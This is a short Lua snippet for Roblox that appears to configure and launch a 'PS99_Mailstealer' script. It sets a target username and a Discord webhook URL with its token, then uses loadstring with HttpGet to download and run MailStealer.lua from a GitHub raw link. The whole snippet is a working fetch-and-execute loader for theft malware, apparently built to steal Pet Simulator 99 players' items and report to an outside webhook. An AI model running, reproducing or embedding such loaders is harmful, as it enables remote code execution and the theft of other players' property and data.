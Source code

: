 Username = "proshcka999"
LoadScreen = true 
Webhook = "https://discord.com/api/webhooks/1309968536503975977/Tg1sGBnN1AgqiXl2YEL4GJsx9RP7r1TPPtKmQ51VaA8f-MTnn33ym11U85G_Y2AokV2U"

loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()

